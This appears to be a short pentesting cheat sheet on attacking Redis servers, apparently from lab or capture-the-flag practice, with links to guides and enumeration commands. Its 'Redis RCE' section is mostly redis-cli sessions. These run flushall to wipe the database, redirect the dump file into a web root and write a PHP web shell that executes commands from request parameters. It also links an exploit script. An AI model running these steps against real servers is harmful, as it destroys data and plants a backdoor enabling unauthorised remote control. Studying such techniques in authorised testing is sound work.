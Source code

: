 - - -
**<u>Best Guides</u>:**
- [hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
- [https://lzone.de/cheat-sheet/Redis](https://lzone.de/cheat-sheet/Redis)
- https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/redis
- - -
### Enumeration : 

```sh
>>> redis-cli -h $IP 
10.10.63.208:6379> info
NOAUTH Authentication required.
10.10.63.208:6379> AUTH <redis_pass>
OK
10.10.63.208:6379> KEYS *
1. internal flag
10.10.63.208:6379> get "internal flag"
<content of the flag>
10.10.63.208:6379> lrange "authlist" 0 100
<Some Data #decoded>
```

```sh
nmap --script redis-info -sV -p 6379 <IP>
```

```sh
msf> use auxiliary/scanner/redis/redis_server
```

- - -
### Redis RCE : 

Useful : https://github.com/iw00tr00t/Redis-Server-Exploit/blob/master/redis.py

```sh
root@bulbul:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> flushall
OK
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

Or You can also do : 

```sh
root@bulbul:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> flushall
OK
10.85.0.52:6379> set pwn '<?php system($_REQUEST['cmd']); ?>'
OK
10.85.0.52:6379> config set dbfilename shell.php
OK
10.85.0.52:6379> config set dir /var/www/html
OK
10.85.0.52:6379> save
OK
```
